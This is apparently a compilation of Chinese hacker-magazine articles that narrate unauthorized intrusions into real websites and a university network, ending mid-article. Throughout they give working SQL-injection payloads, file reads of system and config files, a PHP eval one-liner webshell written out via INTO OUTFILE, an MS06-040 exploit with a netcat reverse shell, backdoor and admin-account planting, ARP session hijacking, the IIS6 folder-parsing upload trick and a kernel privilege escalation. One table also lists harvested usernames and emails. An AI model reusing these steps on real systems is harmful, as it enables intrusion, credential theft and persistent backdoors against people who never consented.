# 西线无战事

是靠自己吧！现在只好手工注入，虽然辛苦点。我们来手工找下字段的数量，提交 `/**/oRdEr/**/By/**/5/*`（注意：注入的语句最好变化下大小写，为的是怕程序过滤了注入的关键字）返回正常，说明字段大于 5 个；提交 10 的时候出错了，说明小于 10 个字段；提交 7 返回正常，提交 8 却出现错误了，说明字段是 7 个。马上构造语句：`/**/and/**/1=2/**/UnIon/**/sEleCt/**/1,2,3,4,5,6,7/*`，提交后如图 3。

记下数字 6 和 7 的位置，显示信息就算它了。`VerSioN()` 函数可以查看数据库的版本，`USer()` 函数可以查看当前连接的用户名，`DATabaSE()` 可以查看当前使用的数据库。我们在 6 和 7 的位置分别插入 `VerSioN()` 和 `USer()`，提交后如图 4。

数据库版本是 5.0.16-nt，数据库连接的用户是 ROOT，最后提交 `DATABASE()` 函数显示了当前的数据库是 duba。

现在来判断 MYSQL 数据库是否和 WEB 服务器位于同一服务器。打开 CMD，输入命令：`PING WWW.XXXX.COM.HK`，得到 IP 地址为 202.X.X.248，说明它们位于同一台。现在需要判断下操作系统的类型，提交一个不存在的页面，提示无法找到，同时爆出了服务器的信息，使用的是 APACHE 服务器，版本为 Apache/2.0.54 (Win32)，操作系统为 WIN 平台。

现在我们利用 `load_file()` 函数来读取一下 `boot.ini` 的信息，先将 `c:\boot.ini` 转换成 HEX 值后再提交，原来是 WINDOWS 2003 的系统，如图 5。

大家都知道，PHPMYADMIN 可以轻松地对 MYSQL 数据库进行管理，不知道服务器上为我们准备好了没有，呵呵。在网址后面加上 PHPMYADMIN，立即返回了 PHPMYADMIN 的登录页面，尝试了几个弱口令均未成功。

PHPMYADMIN 的管理密码是保存在文件中的，我们可以通过 `LOAD_FILE()` 函数来读取，但是我们不知道 PHPMYADMIN 的路径呀？尝试提交 `phpmyadmin/libraries/select_lang.lib.php`，不过爆出路径失败，测试了其它几个 PHPMYADMIN 文件也失败。

这时想到安装了 APACHE 的服务器，于是我在网上下载了和服务器一样的版本，在本机安装，得到默认安装的路径为：`C:\Program Files\Apache Group\Apache2\conf\httpd-win.conf`，马上转换成 HEX 值进行提交，同样失败，换了其它安装的盘符也失败。

接着尝试读取 IIS 站点的配置文件 `c:\windows\system32\inetsrv\MetaBase.xml`，提交后显示空白。最后用如下语句爆出 IIS 站点配置信息，如图 6（编者：其中的 replace 是 mysql 的函数，作者把 `<` 去掉了）。

```sql
replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,115,121,115,116,101,109,51,50,92,105,110,101,116,115,114,118,92,77,101,116,97,66,97,115,101,46,120,109,108)),char(60),char(32))
```

通过分离垃圾数据，最后得到可能有用的四个路径：

- `C:\inetpub\ftproot\duba`
- `c:\inetpub\wwwroot`
- `D:\Program Files\Microsoft SQL Server\MSSQL.3\Reporting Services\ReportServer`
- `D:\website\StatSystem`

经过我的测试以及社工猜解 WEB 路径，以上路径均未派上用场。FTP 用的不是 SERV-U，如果是 SERV-U 还可以读取下配置文件得到 FTP 的密码进行破解。

看来路径不好找啊，现在我们来猜解下存放管理员密码的表和字段，从而爆出用户名和密码，进行后台登录。

```sql
提交/**/and/**/1=2/**/Union/**/SeLeCt/**/1,2,3,4,5,6,7/**/from/**/admin/*
```

返回正常，看来存在 admin 表。现在来猜下字段，尝试猜解常用的字段，最后得到用户名字段为 username，密码字段为 psw，现在我们来爆出密码，如图 7。

拿到用户和密码后找到了管理后台，是 admin，后台提示：请以指纹登入系统！还提示登入之前需安装相应的插件。居然是指纹识别管理员的登录，没有指纹就算是神仙也别想通过，第一次见到这样高级的网站后台验证，如图 8。

看来进后台的想法是行不通了，于是我尝试用得到的账户和密码登录 PHPMYADMIN 后台，结果也是惨不忍睹。接着我挂了一个目录猜解器进行猜解尝试，希望能找到后台没有做验证的管理页面，不过进展也是不行，继续利用 GOOGLE 搜索引擎进行深度搜索，也没找到上传的页面。

看来要拿下它还蛮不简单啊！要是简单肯定早就被黑了，估计很多朋友搞到这里都被郁了。我们要发扬“许三多”的精神，不抛弃不放弃，先休息下，重新调整下渗透思路。

猛然间想起数据库版本是 MYSQL5 的，我们可以尝试跨库查询，这么大的站估计里面还有分类站点，现在也只有这个办法了。马上构造如下查询语句，如图 9：

```sql
/**/and/**/1=2/**/Union/**/sEleCt/**/1,2,3,4,5,SCHEMA_NAME,7/**/from/**/information_schema.SCHEMATA%20limit%20N,1/*
```

（N 代表你想查询的数据库位置）

通过我的查询，发现存在 5 个数据库，分别是：duba、founderonline、kishk_backup_dbo、mysql、test，DUBA 数据库是主站的库，我们已经测试过了，先排除。现在我们挑选几个库来重点分析吧！

先测试 founderonline、kishk_backup_dbo 这两个，founderonline 这个库给我的感觉应该是一个分类站的库，那么就先测试它吧！

先查表，构造查询语句如下，结果如图 10：

```sql
/**/1=2/**/Union/**/sEleCt/**/1,2,3,4,5,TABLE_NAME,7/**/from/**/information_schema.TABLES/**/where/**/TABLE_SCHEMA=数据库名/*库名转换为HEX的值*//**/limit/**/1/*表的位置*/,1/*
```

经过我的仔细查找，发现这个库共有 41 个表，通过筛选确定了三个可能存在管理密码的表，分别为：go2yr_user、user、customer。先构造查字段的语句：

```sql
/**/and/**/1=2/**/UniOn/**/sEleCt/**/1,2,3,4,5,COLUMN_NAME,7/**/from/**/information_schema.COLUMNS/**/where/**/TABLE_NAME=0x75736572（表名的HEX值）/**/limit/**/1/*字段位置*/,1/*
```

通过查找得到 user 表的字段有：user_name、password、name，立即构造语句进行查询：

```sql
/**/and/**/1=2/**/UniOn/**/sEleCt/**/1,2,3,4,5,password,user_name/**/from/**/founderonline.user//*注意：管理表名必须写上数据库名称，格式是：库名.表名，不然查询要出错*
```

这时发现字段里是空的，什么信息也没有，估计管理密码信息没在那个表里，还剩下两个表，我们继续测试。

这三个字段，结果只爆出了 password 字段的信息，有密码而没有爆出用户名，如图 11。

很郁闷哈，有密码没用户。根据这些信息至少可以确定存在一个分站的站点，现在我们来找找它的地址。如何找呢？当然是借助我们强大的搜索引擎了。我构造的搜索语句为：**founderonline site:duba.com.hk**，在谷歌大哥的帮助下很快就找到了它的踪影，如图 12。

这是一个英文的分类站点，在地址后加个 admin 目录，很快就弹出了登录页面，这个后台没有使用指纹识别的验证方式，如图 13。

只有密码而没有用户名咋办呢？我们可以尝试使用主站的管理员，结果登录失败。继续社工可能使用的管理员用户名，当我测试到 admin 的时候，居然进去了，皇天不负有心人啊，如图 14。

后台获得 WEBSHELL 很简单，点击“产品管理”——“产品图片”——“新增”，选择一个 PHP 版的脚本木马，最后点击新增！发布成功后，找到刚才新增的产品图片，按鼠标右键查看属性即可得到 WEBSHELL 的路径，如图 15。

服务器的配置环境为 WINDOWS 2003+APACHE+MYSQL 5+PHP+PHPMYADMIN，APACHE 是以系统服务启动的，我们的 PHP 木马可以执行任意系统命令，也可以添加一个管理员权限的用户，远程登录终端服务器，如图 16。

由于我不想给自己找麻烦，就不远程登录终端了，反正现在都是系统权限，同时我也不打算继续渗透该公司的其他服务器。

此次渗透就告一段落了，过程经历了很多的艰辛，渗透主要是要有灵活的思路和技巧，还要有毅力！还是那句话，遇到困难千万别放弃，放弃就等于失败。如果对本文有什么不明白的地方，请到《非安全》官网论坛或者岁月联盟找我交换意见，谢谢。最后祝希望我的好兄弟 JK70Se 能顺利找到满意的工作。

> 【文章中用到的转换工具.exe和 phpspy2008.php 已收录在本期光盘】

**编辑点评：**
很详细的一篇手工注入 php+mysql 的文章，大家可以收藏起来当参考资料。

## 本文是一些常规入侵手法的集合

大家好，这回给大家带来的是意外进入某大学网络的过程，主要是利用国外的“XAMPP”配置方面的漏洞进行渗透。

“XAMPP”是一款功能强大的建站集成软件包，这个软件包原来的名字是 LAMPP，但是为了避免误解，最新的几个版本改名为 XAMPP 了。它可以在 Windows、Linux、Solaris 三种操作系统下安装使用，支持多语言：英文、简体中文、繁体中文、韩文、俄文、日文等。

这次的渗透成功是因为有些管理员在配置“XAMPP”时为了省事，将 MYSQL 数据库 root 账户口令设置得过于简单或者采用空口令，于是就有了本篇文章。

### 一、意外拿到系统权限

在网上一个牛人的 blog 里看到了“XAMPP”配置漏洞的问题，于是我打开 google，利用关键字“XAMPP Version 1.6.8”进行查找，查找到几页使用“XAMPP”的系统，随便打开一个网站，如图 1。

从图 1 中可以看出是 php 的安装环境，并得知了当前网站的绝对路径。左边“XAMPP”字样的下方可以看到有很多功能模块，其中有一项为“phpmyadmin”。我们知道这个是管理 MYSQL 数据库的工具，点击进去，看看 root 账户是否为空口令。

输入账户和口令后直接点击进入，没想到成功进入 phpmyadmin 后台了，如图 2。

我们现在知道了网站的绝对路径，而且又可以操作 MYSQL 数据库，下面就是拿 WEBSHELL 了。具体步骤如下：

- 1. 建个表，带个字段，名字随意，不要和数据库里的表重名就行，语句如下：

```sql
CREATE TABLE a (cmd text NOT NULL);
```

- 2. 在表里插入 php 一句话马，语句如下：

```sql
INSERT INTO a (cmd) VALUES ('<?php eval($_POST[cmd]);?>');
```

- 3. 利用 outfile 函数把表里的一句话马导入成一个 php 文件，语句如下：

```sql
select cmd from a into outfile 'c:\xampp\htdocs\cmd.php';
```

- 4. 删除刚才建的表，不要留下痕迹，语句如下：

```sql
DROP TABLE IF EXISTS a;
```

成功执行完以上语句后，结果如图 3。从图 3 中可以看出，SQL 语句没有显示错误，Webshell 就应该到手了，如图 4。

接着再上传一个大马到服务器上，大马功能多，更方便操作。由于很多管理员在安装“XAMPP”时会以超级管理员的权限进行安装，而“XAMPP”服务又是以 SYSTEM 启动，因此，“XAMPP”下面的脚本权限都继承 SYSTEM 权限，可以直接执行系统命令。

我们在大马的 cmdshell 里直接添加了一个管理员账户，如图 5，再执行命令 `netstat -an` 就可以看到服务器开放的端口。3389 端口是开放的，利用添加的管理员账户远程连接上去，如图 6。

们对其中主要的两个 IP 进行渗透，其中一个是医务管理系统，IP 地址是 210.xx.xx.234，还有一个是招生系统网站，IP 地址是 210.xx.xx.206。

### 二、继续内网渗透

接下来继续进行内网渗透，扩大成果！先上传了一个 IIS 扫描器到服务器上，对 C 段网络进行扫描，发现 C 段从 200 以后的网段都是这个大学的对外服务器，但是主站还在这个 C 段里。我们这时上传了一个自己写的系统漏洞扫描器，整合了 MS05-039、MS06-040、IIS5.0 三个漏洞，把整个 C 段进行了扫描，结果发现一个服务器存在 MS06-040 漏洞，IP 地址是 210.xx.xx.206，是招生系统网站。

马上上传一个 MS06-040 的漏洞溢出工具，这个溢出工具可以反弹一个 SHELL 回来。在服务器上用 nc 先监听一个端口，我这里是监听 6689 端口，命令为：`nc -l -p 6689`。

```text
ms06040.exe 210.xx.xx.206 210.xx.xx.214 6689 0
```

接着执行溢出程序，命令为：`ms06040.exe 210.xx.xx.206 210.xx.xx.214 6689 0`，过了一会儿，就有数据返回，溢出成功并拿到 SHELL，如图 7。

查看一下服务器是否开放了远程桌面，貌似远程服务和 3389 端口都没有开放。先上传一个 radmin 后门上去，查看了一下 tftp 命令，可以使用，看样子管理员水平蛮差，服务器补丁都不打，关键文件都没有删除。

上传一个 tftp 本地端口监听工具到服务器上，在反弹回来的 cmdshell 里执行 `tftp -l 210.xx.xx.206 get svchost.exe c:\svchost.exe`，成功上传了 radmin 后门到 c 盘根目录下，如图 8。

执行 radmin 后门程序，过了会发现 radmin 后门的服务和端口都开放了，用 radmin 后门成功连接服务器，操作系统是 windows 2000。上传一个 3389 工具开启了操作系统的远程桌面，添加一个管理员账户，成功连接上远程终端，如图 9。

从图 9 中可以看到 206、214 两台服务器都安装了 radmin 后门，并且现在两台服务器的远程桌面都连接上去了。

下面，我们继续来渗透医务管理系统 234 这台服务器。先用端口扫描器扫描，结果发现对外只开放了 21 和 80，FTP 服务器是微软自带的，通过 FTP 上去可以看到，管理员对这台服务器还进行过安全设置，很可能还安装了防火墙。

先看看能不能用 arp 欺骗，`ping 210.xx.xx.234` 这台服务器，果然安装了防火墙，没有数据返回。再执行 `arp -a` 查看 arp 列表，可以看到 254 网关地址和 234 都在列表里，说明交换机上没有做 IP 和 MAC 地址绑定。

马上把 cain 上传到服务器上，对 234 这台服务器进行 arp 会话劫持。再试登录 234 医务管理系统，随便输入一个用户名和口令，这里我都输入 test，再看看 cain，它成功劫持到 WEB 端口的数据。等了大概几个小时，再登录远程桌面，发现已经劫持到一个用户，如图 10。11。查看了一下，在线编辑基本资料里有上传个人图片的地方，试着上传一个一句话 PHP 马，没想到成功上传，都没有限制上传文件格式，真晕！这样当然就成功拿到医务管理系统的 WebShell 了，如图 12。

继续上传了大马，数据库是 MySQL，连接数据库的用户不是 root 权限，PHP 里的 cmdshell 也不能执行命令，上传了 asp、.net 的马也不能执行。通常的提权方法也试了，都没有成功，看来这儿的管理员责任心要强一些，呵呵。哎，累了，有了 WebShell 也算成功拿到医务管理系统的权限了。

### 三、总结

这次意外进入某大学网络，主要是由于管理员对“XAMPP”配置时出现的问题没有重视，而且自己的 MySQL 数据库口令为空。我们从这些突破口进入了服务器的 C 段，熟知内网安全防护很差的情况下，利用系统溢出结合 arp 欺骗、嗅探等技术，最后成功拿到两台服务器权限。文章中的工具和相关资料我会打包，有什么不明白的地方可以到《黑客手册》论坛给我留言，我 ID 号是 rabbitsafe。

> 【本文用到的工具 ms06040scan.rar、ms06040.exe、webshell.php】


已收录在本期光盘

> **编辑点评：**内网中的扫描、嗅探、溢出都是常规的入侵手法，作者似乎漏了信息收集这一步，可以参阅下本期有关内网入侵中信息收集的文章。

## 左道旁门的渗透

图无敌小龙 & 语永明

**本文你可以了解 TextEditor 编辑器的漏洞**

相信大家都知道千古爱情传奇——梁山伯与祝英台的故事，没错，今天笔者要检测的站点正是梁祝官方 www.XXXX.org。打开网站一看，两只黄褐色的蝴蝶随着略带伤感的背景音乐在那飞舞，仿佛回到了东晋时期的祝家庄，如图 1。

这是个挺“纯洁”的网站，几乎没有什么可利用的页面，看来只能从旁注下手了。到 114best.com 一查，现有 18 个旁站，看来希望还是有的，如图 2。

仔细一看，连曹娥庙的官方站也在，心里暗喜，这次要一箭双雕了。于是一个个依次检测，终于凭着运气，竟然通过弱口令（2 个 admin）进入了 mengpei.com（一个由 .NET 做的企业站）的后台管理，如图 3。

仔细浏览了一下，发现没有备份功能，一看编辑器还有点陌生，不管三七二十一，先上传个图片马进行抓包来看。于是打开 WSockExpert 进行抓包，结果如图 4。

细细一看，发现代码很有意思，用的是一个叫 TextEditor 的编辑器。

**小知识：**TextEditor 是一款文本编辑工具，适用于 Windows，支持 JavaScript 和 VBScript 及 Unicode，同时也支持 perlscript、phpscript 等其他语言。目前网上用的比较少，由于此编辑器可以修改上传保存路径名，从而可利用 Windows 2003 的解析漏洞来拿 shell。

```text
http://mengpei.com/TextEditor/Dialogs/Upload.aspx?uploadFolder=../../UpFile/
```

于是打开所抓代码中的 URL，如图 5。

不知道大家发现漏洞没？对了，就是 uploadFolder=../../UpFile/ 这里！我们把 ../../UpFile/ 改成 ../../UpFile.asp/ 看看，如图 6。

一访问还是可以正常打开，那现在我们只要直接上传一个图片马就可以被当做 asp 格式来解析了。上传一个图片马，显示上传成功，然后按鼠标右键查看源文件来获得马的路径，如图 7。经过分析，马的路径应该是 `http://mengpei.com/UpFile.asp/2008124212943743.gif`，于是访问这个路径，只见熟悉又可爱的小马跳了出来，如图 8。


接着就是熟练的小马拉大马，轻松获得一个 WebShell，如图 9。既然这个站的 WebShell 可以这么拿，那同服务器上的其他站是不是也用了同样的编辑器？是不是也存在同样的漏洞呢？百猜不如一试，于是把 `http://mengpei.com/TextEditor/Dialogs/Upload.aspx?uploadFolder=../../UpFile.asp/` 中的域名地址改成其他的站，发现很多都可以正常打开，如图 10。


| 组件 | 状态 | 说明 |
|---|---|---|
| Scripting.FileSystemObject | √ | 文件操作组件 |
| WScript.Shell | × | 命令执行组件 |
| ADOX.Catalog | √ | ACCESS 建库组件 |
| JRO.JetEngine | √ | ACCESS 压缩组件 |

于是用同样的方法相继拿下了很多 shell，不过很可惜，我们的目标站没有用这个编辑器，所以还得回到 WebShell 中来看看。

一番查看，发现 WScript.Shell 已经被删，由于是虚拟机，所以目录跳转也是行不通的，服务器开了 3389 远程终端服务，也装了 Serv-U，可是加不了用户，应该是被管理员改了密码或端口，如图 11。


不用着急，我们当前 shell 的站点不是 .NET 的吗？那上传一个 aspx 的大马，看能不能解析。结果是可喜的，aspx 大马能正常打开，如图 12。


进去后点击大马的 IISSpy 功能，服务器上的所有网站目录都跳了出来，如图 13。

于是找到目标站，留了个提醒页面给管理员。整个人侵过程应该说没什么技术含量，就是利用一个编辑器来修改上传目录路径，利用 Windows 2003 IIS 6.0 文件夹解析漏洞来拿 shell。

> **小知识：**Win2003 存在着一个文件解析路径的漏洞，当文件夹名为类似 hack.asp 的时候（即文件夹名看起来像一个 ASP 文件的文件名），此时此文件夹下的文本型文件都可以在 IIS 中被当做 ASP 程序来执行。这样黑客即可上传扩展名为 jpg 或 gif 之类的、看起来像是图片文件的木马文件，通过访问这个文件即可运行木马。Windows 2003 IIS6 处理文件夹扩展名的时候出错，导致放在该目录中的 JPG 图片会自动执行其中的 ASP 代码。目录中的文件只要含有 ASP 代码都会被执行；当然不只是 JPG 后缀才行……

Windows 2000 IIS5 处理对 JPG 图片中如包含有 Html 及 ASP 代码，会执行动作代码，而不会执行其中的 ASP 代码，所以 Windows 2000 IIS5 并不存在这个漏洞。这个漏洞很明显是由于 asp 结尾的文件夹名所导致，属于 IIS6 设计缺陷。……

漏洞的利用方法如下：

在 hack.asp 这样的文件夹下，利用网站的上传权限，将各种 asp 木马更名为以 jpg/gif 等为后缀的文件，然后上传到服务器。当访问 hack.asp 目录中的这些文件时，目录中的脚本木马程序会被 IIS 解析。

- 1. 有用户可自主命名文件夹权限的功能，建议检查文件夹名称命名合法性，或者关闭用户上传功能。
- 2. 在用户控制的文件夹内设置脚本权限为“无”。

通过本文，希望能给大家一种新的思路，入侵渗透本来玩的就是思路。最后还是那句话，技术是一把双刃剑，只有用到适当的地方，才能发挥它的光和热。

> 编辑点评：各式各样的编辑器插件，都暴出了一定的漏洞。


图 13

在主程序没有漏洞的时候，不妨试一下它用的插件，本文就是一例。

## 友情链接渗透门户网

图 Rabbitsafe

这篇文章讲的是 php 注入 + Linux 提权。

大家好，这里给大家带来的是友情链接渗透门户网，文章只为技术交流。由于网站排名比较靠前，具体详细信息不方便透露，我就以“渗透网”名称代替。

渗透网的 Web 和数据库在一台服务器上，操作系统是 Linux，内核是 redhat 2.4 版本。数据库用的是 MySQL 5.0，网站程序是 PHP，服务器上存放有 8 个站点。最后本人通过内核提权拿到了服务器权限，这些信息都是最后渗透结束获得的，下面大家和我一起开始这次的友情链接渗透行动吧。

### 一、找漏洞

这个渗透网自称是中国最大的翻译门户，网址是 http://www.xxx.net/，先来看看这个站的结构，主站集成了 blog、招聘、论坛等功能，每个功能都是分站，通过主站首页显示出来。主站还有一个在线词典，通过域名查看 IP，知道大部分都和主站在同一服务器上。

先来看看主站右侧的翻译求助，用的是 php 程序，而且后面紧跟着的 id 变量是整型，但是域名是分站的，通过查看 IP，还是和主站 IP 一致。

由于 php 在 magic_quotes_gpc=On 时会对单引号转义处理，所以字符串注入就没有办法了，但对于整型注入还是有效的。我们先来看看这个点是否存在注入漏洞，提交：http://www.xxx.com/website_opr.php?opr=en_news_info&id=84655 and 1=1 和 http://www.xxx.com/website_opr.php?opr=en_news_info&id=84655 and 1=2，返回的页面不一样，提交 and 1=1 时页面正常显示，提交 and 1=2 时页面内容没有显示。

```text
http://www.xxx.com/website_opr.php?opr=en_news_info&id=84655 and order by 10/*
```

10/* 时，页面正常显示，提交：http://www.xxx.com/website_opr.php?opr=en_news_info&id=84655 and order by 15/* 时，页面没有显示，说明字段数在 10-15 之间。最后确定字段数是 10，提交：http://www.xxx.com/website_opr.php?opr=en_news_info&id=84401and1=2 union select 5,1,10,user(),8,database(),6,version(),4,3,2,1/*，确定了连接数据库的用户名为 root，数据库版本信息是 mysql 4.0 及当前网站数据库名，如图 1。


图 1

数据库版本太低，如果是 MySQL 5.0 以上，又是 root 权限，就可以配合系统数据库来列出其它网站的表。对于低版本的 MySQL，就只能手工猜解表名了。经过了一番猜解，把常用的表名都试了一遍，也没猜出一个表来，下面来试试其它方法。

我们现在是 root 权限了，按理说可以读取系统任何文件，包括系统密码文件等，如果能得到网站路径就好办了。拿出自己的扫描工具，我自己把一些网站常用的文件，包括敏感文件都进行了收集，这个扫描器会对那些敏感文件进行扫描。结果扫描出来一个文件 phpinfo.php，大家可能猜到了，这个文件是 php 搭建环境的测试文件，我们来访问看看，如图 2。


图 2

从中我们得到了网站的绝对路径，那么就可以读取相关文件了。先选取了存在注入漏洞的 website_opr.php 文件，获得了连接数据库的文件 config.inc.php，然后提交如下语句：

```text
http://www.xxx.com/website_opr.php?opr=en_news_info&id=8440%2and1=2unionselect 51,10,9,8,replace(load_file(char(47,119,119,119,47,104,116,100,111,99,115,47,111,117,114,116,114,97,46,99,111,109,47,99,111,110,102,105,103,46,105,110,99,46,112,104,112)),char(60),char(32)),6,5,4,3,2,1/*
```

这里使用 replace 函数是为了过滤文件中的“<”，好让文件内容能够完全显示出来，char(60) 是“<”符号的 ASCII 值，char(32) 是“空格”的 ASCII 值。最后，成功读取到了 root 口令，如图 3。


图 3

然后，利用读取的 root 账户连接数据库，成功连接上了，可能是低版本的 MySQL 默认没有关闭远程连接功能，如图 4。

下面就是拿 WebShell 了，具体步骤如下：

- 1. 建个表，带个字段，名字随意，不要和数据库里的表重名就行，语句如下：

```sql
CREATE TABLE a (cmd text NOT NULL);
```

- 2. 在表里插入 php 一句话马，语句如下：

```sql
INSERT INTO a (cmd) VALUES('<?php eval($_POST[cmd]);?>');
```


图 4

- 3. 导出为文件，语句如下：

```sql
select cmd from a into outfile '/www/htdocs/xxxx.com/config.inc.php';
```

- 4. 删除刚才建的表，不要留下痕迹，语句如下：

```sql
DROP TABLE IF EXISTS a;
```

成功执行完以上语句，如果没有显示错误，WebShell 就应该到手了，如图 5。


图 5

我们打开一句话后门客户端，填上一句话木马地址 http://www.xxx.com/phpinfoss.php，口令是 cmd。看到 php 环境，成功拿到 WebShell，如图 6。


图 6


### 二、内核提权

虽然现在已经可以控制大部分网站的权限了，但是有部分网站文件还是没办法修改，下面我们就来提权，看能不能拿到系统 root 权限。

先来看看网站 WebShell 的权限，到 WebShell 可以执行命令的地方输入 id 进行查看，如图 8。

可以看到现在是 daemon 用户的权限。Linux 下的提权比较有效的就是内核提权了，我们来看看 Linux 内核是什么版本的，在命令行下输入 uname -an，如图 9。

哦！是 2.4 内核，刚好手上有 2.4 内核的溢出程序，我们来试试看。首先要返回一个 shell，最新的 2008 phpspy 就有这个功能，我们上传一个 2008 版本的 phpspy 上去，看到有个 backconnect 的选项，输入我们自己的公网 IP 地址和监听的端口，本地执行 nc -l -p 99 监听一个端口，过了一会儿就返回来一个可爱的 shell 了，如图 10。

接着，我们上传一个 2.4.c 的文件到 tmp 目录，此文件是 2.4 内核溢出的源文件。tmp 是 Linux 下的临时目录，任何用户都拥有 777 权限，可以对文件进行执行、删除、写入等权限。将文件上传到此目录下，方便我们编译执行，然后用 gcc 执行 `gcc 2.4.c -o 2.4` 进行编译，再查看一下文件 2.4 是否编译成功。接着再执行编译好的文件，大概过了几分钟，我们再输入 id 进行查看，已经是 root 权限了，如图 11。


再上传一个大的 WebShell，便于操作和查看。服务器上的网站都没有设置访问权限，这个 WebShell 差不多可以查看和删除大部分网站的文件，对于某些网站目录还是 777 完全控制，如图 7。

下面，我们就可以留个后门，完全控制服务器上所有网站的文件。翻译门户网的友情链接检测到此就结束了，漏洞已经通知网站管理员修补，请大家不要再进行渗透，如果大家要渗透，出现的问题与作者及本刊无关。

多技巧对我们检测网站漏洞都很有帮助，渗透就像搭积木，要注意细节，多多积累，我们才能搭得更高。

文章中的工具和相关资料我会打包，有什么不明白的地方可以到《黑客手册》论坛给我留言，我 ID 号是 rabbitsafe。

### 三、总结

文章中的方法都是 php 注入常用的方法。由于数据库没有进行安全设置，导致得知 root 账户口令后直接就可以连接数据库。而像 phpinfo.php 这种 php 环境测试文件没有及时删除，用户通过此文件可以得到网站绝对路径，两者相结合轻易就可以写入 php 木马。

在《黑手》《我在入侵过程中注意的一些细节》中提到的很多技巧对我们检测网站漏洞都很有帮助，渗透就像搭积木，要注意细节，多多积累，我们才能搭得更高。

> 【本文用到的工具 2.4.c、2008.php 已收录在本期光盘】

**编辑点评：**
探针是很多网站喜欢放的程序，但是探针同样会暴露给入侵者相当多的便利，本文的 phpinfo.php 就是一例。

## 入侵某黑客网站

图 admin

**从本文你可以记住：通过废弃数据库巧妙入侵**

某日在网上乱逛，遇到一个牛 X 的工具介绍，如图 1，一看就觉得太假了，不过还是想进去看看。

点击登录链接，发现这套系统是 php 的，再访问网站一个不存在的目录，从返回的错误页面知道服务器使用的是 IIS。随便查看了下网站的文件源代码，没有发现什么有标识的东西，在根目录下输入 admin 也没找到后台，反正也没打算直接从这里下手。

头脑中的第一想法就是旁注，一查得知大约有四十来个网站，应该能弄到一个 WebShell。g_shell 的过程很简单，就是遇到一个后台为弱口令的网站，进了后台随便就扔了一个 WebShell 出来，丢一句话木马上去看了下环境，IIS 为 6.0，WScript.Shell 也存在，心想有戏。


接着习惯性地浏览目录，发现了存放数据库文件的文件夹。一直点击进去发现了些 mysql 的数据库文件，如图 2。

竟然有一个文件夹为 sq_2hokvip，进去后发现 mysql 的数据库。之前从启动项那里发现 MYSQL 的目录在 D:\MYSQL，怎么这个目录有 mysql 的数据库呢？

先不管了，直接打包 data 文件夹到本地，然后复制整个 sq_2hokvip 文件夹到本地的 mysql 存放数据库的地方，还有一个 sq_hokvip_down 文件夹也一样复制过去。接着使用 mysqlcc 查看本地的数据库，如图 3。

首先试了下看看能不能跨目录，结果当然是不能了。继续访问其它目录，以求获取更多的东西。首先访问：C:\Documents and Settings\，被限制了，访问不了。再访问深点的目录：C:\Documents and Settings\All Users\「开始」菜单\程序\，这次进去了，看到了些对我们有用的东西，服务器装了 MSSQL、MYSQL、Serv-U、WinWebMail，看来自要就是靠这些东西提权了。


OK 了，开始收集有用的数据，通过一个叫 v3_adminlog 的表找到网站的后台，如图 4，在 v3_admin 表里面找到了下面的东西，如图 5。MD5 的密码破解出来了，登录后台也 OK，如图 6。

| id | content | url | admin | time |
|---|---|---|---|---|
| 1 | ?????? | /d/admin/index.php | hokvip_admin | 1223134657 |
| 2 | ???????? | /d/admin/index.php | hokvip_admin | 1223134725 |
| 3 | ?????? | /d/admin/index.php | hokvip_admin | 1223134732 |
| 4 | ?????.../templa | /d/admin/index.php | hokvip_admin | 1223134977 |
| 5 | ?????.../templa | /d/admin/index.php | hokvip_admin | 1223135004 |
| 6 | ?????? | /d/admin/index.php | hokvip_admin | 1223135014 |

- 1. 目前手里的网站使用的是 Access 数据库，MSSQL 这方面就不想了。
- 2. 跳转到 MYSQL 的安装目录，D:\mysql\，结果是不能访问；访问目录 C:\windows\，没看到 my.ini 文件的存在，Php.ini 里面也没 root 账号和密码。
- 3. 跳转到 Serv-U 目录也不能访问，Serv-U 本地提权觉得不大可能，所以直接跳过。

WinWebMail 的目录找到了，但是没写入权限。记得以前看过文章说，如果这里能写入 WebShell，权限比较大。

习惯性地访问目录 C:\Program Files，看到一个 MYSQL1。

| id | username | nickname | password | logintime | email |
|---|---|---|---|---|---|
| 1 | 5hokvip_admin | 21... | eca6... | 1223134460 | admin@admin.com |
| 2 | 444394096 | ... | ... | 1223136321 | 444384096@qq.com |
| 3 | lriteci2000 | 83... | ... | 1223156811 | lritchie2000@163.com |
| 4 | j271642827 | 8f... | ... | 1223168278 | 271642827@qq.com |
| 5 | liuxiuqing | e8a0... | ... | 1223211268 | liuxiuqingke.com |
| 6 | hanfanfan | de... | ... | 1223213969 | wxshuyu@163.com |
| 7 | 391649329 | 3c... | ... | 1223215791 | 391649329@qq.com |
| 8 | 48574098 | 3c... | ... | 1223216749 | 451077948@qq.com |


底部有个 logo，程序原来是 Power by：MyDown System v3.3。先看看能不能弄到 WebShell，如果拿不到就再去网上下载这套系统回来看代码吧。

网站的配置里面包括上传的文件类型，添加了个 php 和 asp（因为是 Win 系统），但是后面测试都没能直接上传成功，后台在线编辑器为 FCKeditor，如图 7。


最后折腾了很久，找到模板工具的链接：http://www.XXXX.com/d/admin/index.php?Mod=Other::Template::List&TemplateDir=main.html。

模板内容显示了 main.html 的内容，改变 TemplateDir 的值为 ../admin/index.php，但是却没有显示出该文件的内容。又想到，保存的内容会不会是我们提交的这个值呢？访问：http://www.XXXX.com/d/admin/index.php?Mod=Other::Template::List&TemplateDir=log.php，模板内容就填上 PHP 写的内容，提交显示如图 8。


心想这套系统是 PHP 的，但是现在服务器是 Win，估计程序不会把 ASP 也列为禁止的文件类型吧？测试证明了我的想法是正确的，成功上传了 ASP 一句话木马，如图 9。

PS：最后想想，C:\Program Files 目录下应该是以前被废弃的数据库。


> 编辑点评：在数据库的表里找敏感信息是一个很好的方法，大家应当学会。

## 菜鸟恶补之 COOKIE 注入

◎龙月 & 河南 NIIT

本编喜欢的是作者提供的 VB 代码。

### 一、前言

前几天老师让我们做 ISAS 项目，平时不好好学习的我这下抓狂了，不知道如何下手，所以就到学校网站看看原来师哥师姐们的项目，这样心里有个数就好搞了。

提到学校网站，真是有点悲哀：我之前对它检测过，使用的是 .Net 和 SQL2000，很多页面都存在注入，轻松就可以拿 WebShell。这次当我再次进入主页时，发现网站早已脱胎换骨，网站整体非常 PL，什么都别说了，就冲这这么漂亮的网站，开战！玩黑的都不会放过自己学校的……


## 二、初步试探

首先拿着啊 D 注入工具对网站进行检测，找到几处注入点，如图 1 所示，可是字段却猜不出，这时候很多小菜都会觉得没戏了，即使知道手动注入也会觉得麻烦而放弃。

